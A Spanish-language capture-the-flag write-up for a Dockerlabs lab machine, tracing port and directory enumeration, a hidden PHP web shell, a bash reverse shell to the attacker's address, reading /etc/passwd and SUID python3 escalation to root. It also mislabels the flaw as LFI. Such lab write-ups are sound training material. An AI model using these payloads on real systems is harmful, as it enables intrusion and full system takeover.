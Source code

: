 
# Writeup Template: Maquina `[ WalingDead ]`

- Tags: #WalkingDead
- Dificultad: `[ Facil ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina WalkingDead](https://mega.nz/file/KYF0CAia#VZDiYoAnlpQ1n61yLqOkFfCApsLeqOgPL9Hyoi8tzgM)  Laboratorio para practicar técnicas básicas de explotación en entornos web.

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x walking_dead.zip
sudo bash auto_deploy.sh walking_dead.tar
```

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
---

## Enumeracion de [Servicio Web Principal]
Direccion URL del servicio:
```bash
http://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2
```

Reporte:
```bash
/hidden/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
```bash
/hidden/              (Status: 200) [Size: 739]
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,txt,sh,html,js
```

- **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 1380]
/backup.txt           (Status: 200) [Size: 53]
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Revisando el codigo fuente de la web princiipal:
```bash
http://172.17.0.2/
```

Vemos que esta llamando a un archivo oculto: **( shell.php )**
```bash
http://172.17.0.2/hidden/.shell.php
```
### Ejecucion del Ataque
Ahora que cargamos el archivo intentaremos fuzzear por el parametro al que este llamando:
```bash
# Comandos para explotación
ffuf -u http://172.17.0.2/hidden/.shell.php\?FUZZ\=whoami -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 0
```

Tenemos el parametro y al probarlo es vulnerable a ejecucion remota de comandos:
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/hidden/.shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd
```

Revisando los usuarios del sistema vemos que tenemos:
```bash
rick:x:1000:1000::/home/rick:/bin/bash
negan:x:1001:1001::/home/negan:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Tenemos un binario **SUID** el cual podemos explotar
```bash
find / -perm -4000 2>/dev/null
```

```bash
/usr/bin/python3.8
```

Explotando el binario para elevar privilegios a **root**
```bash
# Comando para escalar al usuario: ( root )
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.0# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a realizar la vulnerabilidad **LFI**
2. Aprendimos a **fuzzear** por sus parametros vulnerables para derivarlo a un **RCE**
3. Aprendimos a explotar el binario de **python3** para elevar privilegios a **root**

## Recomendaciones de Seguridad
- Sanitizar el parametro vulnerable en la consulta **php**
- No dar privilegios especiales **SUID** al binario de **python3**.